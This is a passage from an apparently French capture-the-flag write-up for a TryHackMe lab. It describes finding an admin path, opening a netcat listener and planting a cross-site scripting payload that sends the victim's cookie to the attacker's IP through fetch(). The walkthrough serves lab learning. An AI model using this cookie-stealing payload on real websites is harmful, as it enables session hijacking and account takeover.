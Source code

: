 D'arpès le scan nmap le site possède un fichier robots.txt avec le chemin /admin.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234 
listening on [any] 1234 ...
```

On va envoyer le cookie par le port 1234, donc on écoute le port 1234 pour les recevoir.   

![page7](./Task1-07.png)   

```text
<script>fetch("http://10.9.228.66:1234/"+document.cookie)</script>
```

On écrit le script qui lit le cookie et le renvoie sur le port 1234.

Allez dans report to listing to admins.   
